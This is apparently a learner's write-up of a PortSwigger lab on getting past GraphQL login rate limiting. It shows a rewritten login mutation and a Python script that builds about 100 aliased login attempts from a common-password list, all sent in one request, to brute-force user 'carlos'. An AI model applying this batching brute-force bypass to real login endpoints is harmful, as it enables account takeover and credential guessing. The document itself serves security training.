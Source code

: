# Practitioner Lab 105: Bypassing GraphQL brute force protections

---

The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as `carlos`. Use the list of [authentication lab passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) as your password source.

![Untitled](Practitioner%20Lab%20105%20Bypassing%20GraphQL%20brute%20force%20f42fcb909ef142359f6cbf522684e61a/Untitled.png)

```

    mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    }
```

It was originally like this but I wanted to change it to make bruteforcing easier 

so I removed the variables and made it into this:

```

    mutation login {
        login(input: { username: "wiener", password: "peter" }) {
            token
            success
        }
    }

```

Now I can create mutations and add more passwords

![Untitled](Practitioner%20Lab%20105%20Bypassing%20GraphQL%20brute%20force%20f42fcb909ef142359f6cbf522684e61a/Untitled%201.png)

This is a trial to see if it worked or not.

```
passwords = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]
counter=1
for i in passwords:
    print(f'attempt'+str(counter)+':login(input: { username: "carlos", password: "'+i+'" }){token success}')
    counter+=1
    
```

using this simple python script I was able to get all the password iterations into one request.

this gave me the password for carlos

![Untitled](Practitioner%20Lab%20105%20Bypassing%20GraphQL%20brute%20force%20f42fcb909ef142359f6cbf522684e61a/Untitled%202.png)

![Untitled](Practitioner%20Lab%20105%20Bypassing%20GraphQL%20brute%20force%20f42fcb909ef142359f6cbf522684e61a/Untitled%203.png)